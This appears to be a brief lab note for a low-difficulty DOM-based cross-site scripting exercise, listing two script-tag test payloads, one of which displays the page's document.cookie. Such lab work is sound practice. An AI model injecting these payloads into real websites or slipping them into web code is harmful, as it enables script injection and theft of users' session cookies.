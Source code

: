# XSS-DOM 
Difficulty: Low

<script>alert(document.cookie)</script>          </br>
<script>alert(1)</script>
